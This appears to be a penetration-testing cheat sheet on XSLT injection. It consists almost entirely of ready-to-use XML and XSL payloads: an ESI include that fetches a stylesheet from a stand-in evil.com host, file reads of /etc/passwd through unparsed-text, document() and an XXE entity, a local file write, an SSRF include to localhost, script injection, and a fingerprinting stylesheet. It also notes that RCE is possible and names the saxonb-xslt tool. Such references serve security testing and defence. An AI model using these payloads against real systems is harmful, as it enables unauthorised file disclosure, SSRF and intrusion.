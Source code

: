 
## where to find 
In order to exploit this kind of vulnerability you need to be able to store xsl tags in the server side and then access that content

### chain with `est injection` attack 
```
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```


## detection


```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```


## read file


```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
## write to file 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

## SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

## js injection
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## xxe
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

## inclusion using http 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

## RCE 
-some times xslt can lead to RCE in certain condtions

check this [documentation](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET)

## tools 

-use tool saxonb-xslt to parse xml
-ex: saxonb-xslt -xsl:transformation.xsl catalogue.xml
